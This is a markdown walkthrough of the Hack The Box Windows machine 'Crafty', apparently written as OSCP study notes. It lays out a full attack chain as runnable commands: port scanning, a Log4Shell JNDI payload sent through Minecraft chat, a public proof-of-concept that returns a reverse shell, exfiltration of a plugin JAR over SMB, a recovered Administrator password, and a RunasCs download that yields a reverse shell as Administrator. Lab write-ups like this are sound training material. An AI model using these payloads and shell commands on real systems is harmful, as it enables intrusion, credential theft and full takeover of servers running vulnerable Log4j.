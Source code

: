 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🔎 Recon

### 🔮 Port Scan
```bash
nmap -p- --min-rate 10000 -oA nmap/alltcp 10.10.11.249
nmap -p 80,25565 -sCV 10.10.11.249
```
- [HTTP](HTTP) (80): Microsoft IIS 10.0
- Minecraft (25565): Version 1.16.5 (Crafty Server)

### 🌐 Host Mapping
```bash
echo "10.10.11.249 crafty.htb play.crafty.htb" | sudo tee -a /etc/hosts
```

### 🚀 Web Enumeration
```bash
feroxbuster -u http://crafty.htb \
-w /opt/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
```
> Found: /home, /coming-soon, /css, /img, /js

---

## 🗰 Minecraft Port 25565

### 🎮 Client: Minecraft Console Client (Free)
```bash
./MinecraftClient-20240415-263-linux-x64 0xdf
```
- Server: crafty.htb
- Version: 1.16.5

### 🔍 Log4Shell Detection
```bash
nc -lnvp 389
# Send in chat:
${jndi:ldap://10.10.14.6/test}
```

---

## 🛡️ Exploit Log4Shell

### ⚙️ Setup
```bash
git clone https://github.com/kozmer/log4j-shell-poc.git
cd log4j-shell-poc
pip install -r requirements.txt
tar xf jdk-8u20-linux-x64.tar.gz
```

### ✊ Fix Payload (Windows)
Edit `poc.py`: `String cmd="cmd.exe";`

### 🎣 Launch Exploit
```bash
nc -lnvp 443
python poc.py --userip 10.10.14.6 --webport 8000 --lport 443
```
Send via chat:
```text
${jndi:ldap://10.10.14.6:1389/a}
```
> Result: Shell as `svc_minecraft`

---

## 🛠️ Privilege Escalation to Administrator

### 📁 Check Plugin Directory
```powershell
cd 'C:\Users\svc_minecraft\server\plugins'
Get-FileHash playercounter-1.0-SNAPSHOT.jar
```

### 🚚 Exfiltrate JAR
```bash
smbserver.py share . -smb2support -username oxdf -password oxdf
```
```powershell
net use \\10.10.14.6\share /u:oxdf oxdf
copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.6\share\
```

### 🔬 Reverse Engineering
- Tool: `jd-gui`
- Credential Found: `Administrator : s67u84zKq8IXw`

### 🔑 Validate with RunasCs
```powershell
wget http://10.10.14.6/RunasCs.exe -outfile RunasCs.exe
.\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami"
```

### 🚀 Shell as Admin
```powershell
.\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.6:443
```
> Reverse shell as `Administrator`

---

## 🧰 Flags

- **User**: `c:\Users\svc_minecraft\Desktop\user.txt`
- **Root**: `c:\Users\Administrator\Desktop\root.txt`

---

## 🔎 Beyond Root - web.config Analysis

- `index.html` ➔ redirected to `/home`
- `/home` ➔ rewritten to `index.html`
- `/coming-soon` ➔ rewritten to `coming-soon.html`
- Redirects all other non-`crafty.htb` hostnames back to `crafty.htb`

> IIS URL Rewriting explained the static behavior and redirection logic.